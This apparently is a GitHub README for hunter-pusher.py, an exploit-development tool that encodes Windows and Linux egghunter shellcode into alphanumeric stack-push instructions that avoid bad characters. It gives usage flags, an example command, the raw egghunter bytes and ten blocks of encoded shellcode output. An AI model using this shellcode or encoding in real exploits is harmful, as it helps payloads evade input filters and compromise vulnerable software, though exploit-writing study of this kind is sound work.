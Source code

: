 ## hunter-pusher.py
**hunter-pusher.py** is an experimental alphanumeric egghunter encoder. This tool allows the user to generate one of several egghunters listed in Skape's (Matt Miller's) <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" target="_blank">paper</a> titled, _Safely Searching Process Virtual Address Space_ with several customization options. These options include user-defined padding bytes, tag, and bad characters to exclude.  

The output is formatted in blocks to represent the manipulation of the **eax** register reproducing four bytes of the chosen egghunter at a time. This egghunter encoding technique is used in situations where the attacker's raw egghunter is corrupted in memory. Details are covered in this Corelan <a href="https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/" target="_blank">article</a> and piggybacked in a personal <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1" target="_blank">blog post</a>.

Feedback is always welcome.



# Usage
```
usage: hunter-pusher.py [-h] [-b BAD CHARS] [-e #] [-p PAD] [-t TAG]

Alphanumeric egghunter stack pusher

optional arguments:
  -h, --help            show this help message and exit
  -b BAD CHARS, --bad BAD CHARS
                        Bad characters to exclude in payload
                        e.g. '\x00\xb4\xd9'
                        Default: Non-alphanumeric characters
  -e #, --egghunter #   Specific egghunter to encode:
                        0: Windows - SEH - 60 bytes
                        1: Windows - IsBadReadPtr - 40 bytes
                        2: Windows - NtDisplayString - 32 bytes
                        3: Windows - NtAccessCheckAndAuditAlarm - 32 bytes
                        4: Linux - access(2) - 40 bytes
                        5: Linux - access(2) revisited - 36 bytes
                        6: Linux - sigaction(2) - 32 bytes
                        Default: 2
  -p PAD, --pad PAD     Byte to pad egghunter with before encoding
                        e.g. '\x90'
                        Default: \x90
  -t TAG, --tag TAG     Four byte tag that egghunter will search for
                        e.g. 'w00t'
                        Default: w00t
```



# Example

**./hunter-pusher.py -b '\x00\x0a\x0d\xd3\xad\xb3\x3f\xff' -e 1 -p '\x41' -t 'w00t'**

These flags specify the generation of an **IsBadReadPtr** egghunter padded with "\x41", using a tag "w00t".
Bad characters as specified by the user will be excluded from the egghunter and will not appear in the _raw form_ (after blocks are pushed onto the stack).

```
Raw egghunter bytes: 33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB8773030748BFBAF75E7AF75E4FFE7414141

******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5d\x3d\x3e\x3e
\x2d\x5e\x40\x40\x40
\x2d\x5e\x40\x40\x40
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5e\x55
\x2d\x70\x2e\x5e\x55
\x2d\x71\x2e\x5f\x55
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x57\x6f\x2d\x5d
\x2d\x57\x70\x2e\x5d
\x2d\x57\x70\x2e\x5e
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x45\x45\x2e\x26
\x2d\x45\x45\x2e\x27
\x2d\x46\x45\x2f\x27
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5b\x6c\x2d
\x2d\x2e\x5c\x6d\x2d
\x2d\x2f\x5c\x6d\x2d
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x55\x64\x28\x6a
\x2d\x56\x65\x28\x6a
\x2d\x56\x65\x29\x6b
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x51\x36\x5d\x2d
\x2d\x51\x37\x5d\x2d
\x2d\x51\x37\x5e\x2d
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x32\x52\x39\x6d
\x2d\x32\x52\x39\x6d
\x2d\x32\x53\x3a\x6d
\x50
******BLOCK 8*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x67\x55\x4f\x3e
\x2d\x67\x55\x50\x3e
\x2d\x67\x55\x50\x40
\x50
******BLOCK 9*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x44\x61\x32\x2a
\x2d\x44\x61\x33\x2a
\x2d\x45\x62\x33\x2a
\x50
```



# Credits
This tool uses a Python translation of <a href="https://github.com/gap-system/gap/blob/master/lib/combinat.gi" target="_blank">combinat.gi</a> from <a href="https://www.gap-system.org/index.html" target="_blank">GAP</a>, an open-source system for computational discrete algebra used in research and teaching.



# Creation Process
The creation of **hunter-pusher.pyi** is documented in the Building an Alphanumeric Encoder series at: <a href="https://datkev.github.io" target="_blank">https://datkev.github.io</a>
<a href="https://datkev.github.io" target="_blank">https://datkev.github.io/page/building-an-alphanumeric-encoder-part-3</a> of the series is dedicated to code logic.
